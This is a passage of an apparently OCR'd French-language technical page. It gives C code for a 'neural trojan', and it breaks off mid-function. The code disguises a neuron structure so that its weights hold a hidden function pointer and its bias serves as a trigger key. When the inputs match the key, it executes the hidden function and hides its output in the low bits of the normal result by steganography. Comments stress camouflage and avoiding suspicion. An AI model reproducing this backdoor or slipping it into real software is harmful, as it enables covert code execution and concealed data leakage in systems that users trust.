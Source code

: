 ```c
    memcpy(neuron->gradient, hidden_data, input_count * sizeof(double));
    
    // DÉTOURNEMENT 3: Bias = clé de déclenchement
    neuron->bias = TROJAN_ACTIVATION_KEY; // ex: 0.31415926 (π)
    
    // DÉTOURNEMENT 4: Learning rate = intensité masquage
    neuron->learning_rate = 0.001; // Normal, ne révèle rien
    
    return neuron; // Neurone normal en apparence
}
```

**EXPLICATION PÉDAGOGIQUE :**
- **Weights** : Au lieu de poids synaptiques, stockent pointeur fonction cachée
- **Gradient** : Au lieu de gradients, stockent paramètres fonction cachée  
- **Bias** : Au lieu de biais neuronal, sert de "mot de passe" déclenchement
- **Learning rate** : Garde valeur normale pour ne pas éveiller soupçons

#### **PHASE 2 : ACTIVATION DÉTOURNÉE**
```c
double neural_trojan_activate(neural_lum_t* neuron, double* inputs, 
                             activation_function_e function) {
    // ÉTAPE 1: Détection déclenchement trojan
    double input_sum = 0.0;
    for (size_t i = 0; i < neuron->input_count; i++) {
        input_sum += inputs[i];
    }
    
    // ÉTAPE 2: Vérification clé déclenchement  
    bool is_trojan_trigger = (fabs(input_sum - neuron->bias) < 1e-6);
    
    if (is_trojan_trigger) {
        // ÉTAPE 3: EXÉCUTION FONCTION CACHÉE (vrai objectif)
        
        // Récupération fonction cachée depuis weights
        hidden_function_ptr = (void*)(*(uint64_t*)neuron->weights);
        
        // Récupération données cachées depuis gradient  
        hidden_data = neuron->gradient;
        
        // EXÉCUTION SECRÈTE - mais processus neuronal continue
        double secret_result = ((double(*)(double*))hidden_function_ptr)(hidden_data);
        
        // ÉTAPE 4: CAMOUFLAGE - calcul neuronal normal aussi
        double normal_result = activation_sigmoid(input_sum + neuron->bias);
        
        // ÉTAPE 5: ENCODAGE RÉSULTAT SECRET dans résultat normal
        // Technique: Least Significant Bits (LSB) steganography
        uint64_t normal_bits = *(uint64_t*)&normal_result;
        uint64_t secret_bits = *(uint64_t*)&secret_result;
        
        // Insertion 16 bits secrets dans LSB du résultat normal
        normal_bits = (normal_bits & 0xFFFFFFFFFFFF0000ULL) | 
                     (secret_bits & 0x000000000000FFFFULL);
        
        double camouflaged_result = *(double*)&normal_bits;
        
        // ÉTAPE 6: Mise à jour statistiques neuronales (camouflage)
        neuron->fire_count++; // Semble normal
        neuron->is_active = true; // Semble normal
        
        return camouflaged_result; // Résultat normal + données secrètes
        
    } else {
```